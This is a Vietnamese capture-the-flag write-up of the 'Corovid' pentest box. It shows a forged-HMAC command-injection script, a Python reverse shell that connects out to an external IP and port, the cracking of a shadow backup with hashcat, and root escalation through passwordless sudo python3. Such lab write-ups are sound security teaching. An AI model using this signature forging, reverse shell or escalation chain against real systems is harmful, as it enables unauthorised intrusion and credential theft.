

## Motivation

Vào một buổi trưa nắng nóng khi dịch bệnh tràn lan, mình có nhận được tin nhắn thử "xoạc" 1 cuộc thi [CTF](https://ctf.esaip.org/) do ESAIP École d'Ingénieurs tổ chức. Đây là kì thi CTF đầu tiên cũng như lần đầu tiên mình viết write up nên cũng chỉ hi vọng lót đường. 

Ở đây thì có một bài về Box pentest rất thú vị là Corovid (nó ngốn của mình 3 tiếng mới xong :( ) 

Challage web được xây dựng bằng Python ở back-end qua command `nmap -sC -sV -A -p- <ip>`. Các request được gửi từ phía Front-End đến Back-End theo các khoảng thời gian đều đặn bằng lệnh shell để để lấy kết quả mới nhất về số ca Covid trên toàn thế giới. Các request cũng đã được ký ở phía Front-End.


Request Sample:

```
GET /get-last-results?
shell=cat%20/tmp/.corovid_value.txt&auth_ts=1620764393&auth_sign=d643a98d4
ce0b407beacdf750a55cff8b371d207bfbec0ae0667c1aa48b2f33a HTTP/1.1
```


Đối với những bài có sourcecode sẵn như thế này, thì mình thường lướt sơ và hiểu toàn bộ cấu trúc của source trước khi làm. Sau khi xem toàn bộ source thì mình phát hiện một số điều đáng nghi.

Code khá là lộn xộn nhưng có thể dễ dàng thấy được function y() dùng để tạo 1 request tới back-end với mẫu như ở trên. Hơn nữa, bằng cách đặt một breakpoint tại lúc tạo chữ kí với `HMAC256` thì chúng ta có thể thấy được request sẽ kèm 1 shell command tới sever để query số ca nhiễm covid ( ở đây là `cat /tmp/.corovid_value.txt`)

Pattern khi kí sẽ gồm 
```javascript
HmacSHA256("{timestamp 10 digits}:{commande unix}", "You are a hacker")
```

vậy nên dễ dàng có thể tái tạo lại một signature khác kèm theo câu lệnh mình mong muốn cùng với timestamp, dưới đây là một ví dụ:


```python
command = input("command : ")
timestamp = str(int(datetime.datetime.now().timestamp()))
sign = hmac.new("You are a hacker".encode(), (timestamp + ":" + command).encode(), hashlib.sha256).hexdigest()
parameters = {
 "shell":command,
 "auth_ts":timestamp,
 "auth_sign":sign
}
rep = requests.get(url,params=parameters)
print(rep.text)
```

Vì máy chủ web sử dụng python 3 (được phát hiện trong quá trình nhận dạng với nmap), có thể thông qua tập lệnh tạo request với chữ ký hợp lệ để thực hiện trình reverse shell với payload ( có thể đọc thêm về reverse shell payload ở [đây](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python))

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("51.38.123.73",4242))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("/bin/bash")
```

Tada! Đã có thể login vào shell với user là `pfizer`.
Mình có thử xem trong `/home/pfizer` có 1 file `flag.txt` nhưng đây không phải thứ cần tìm ( đời đâu dễ như thế :( )

```bash
ls -la /root
```

thì có thể thấy `/root/flag.txt` ( mình đoán đây mới là thứ cần tìm ).

Bằng cách hiển thị nội dung của /etc/passwd, chúng ta thấy rằng có 3 người dùng có shell:

* root
* pfizer
* astrazeneca

Hơn nữa, ở trong `/home/pzfizer` có thể dễ dàng thấy web server được lưu ở đây và được chạy dưới user `pfizer` bằng cách list tất cả process với command `ps aux`


Một điều lạ là chúng ta chỉ có thể thấy các process của người dùng hiện tại là pfizer.
Mình thử liệt kê tất cả các file thuộc quyền sở hữu ứng với các `user` bằng command 
```bash
ls -laR / 2>/dev/null | grep $USER
```

Chúng tôi thấy rằng một tệp ẩn có tên `.bckp_2021-XX-XX_XX:XX.zip` trong thư mục /srv trong đó chủ sở hữu là `root` có thể đọc được bởi group `pfizer`.


Unzip nó ra thì có thể thấy một bản backup chứa tất cả các hash của system password.


```bash
grep -rn ENCRYPT_METHOD /etc/login.defs

265:# This variable is deprecated. You should use ENCRYPT_METHOD.
279:ENCRYPT_METHOD SHA512
282:# Only used if ENCRYPT_METHOD is set to SHA256 or SHA512.
```

User pfizer chỉ dùng để run web service nên mình cần quan tâm tới user `root` và `astrazeneca`

```bash
tail shadow | grep "astrazeneca" | awk -F':' '{print $2}'
```



Crack hash password thì mình dùng `hashcat` với wordlist là [rockyou](https://github.com/brannondorsey/naive-hashcat/)

Tada! Password là `monsauveur`

Lúc này thì khá đơn giản rồi, chỉ cần check quyền sudo execution của user với `sudo -l` và có thể thấy là user `astrazeneca` có thể chạy python3 mà không cần password :v 

**Exploitation**

```bash
sudo /usr/bin/python3 -c 'import pty;pty.spawn("/bin/bash")'
```


Mình có làm thêm được 2 bài Stegano nữa nhưng mà dễ quá nên không write up :v 
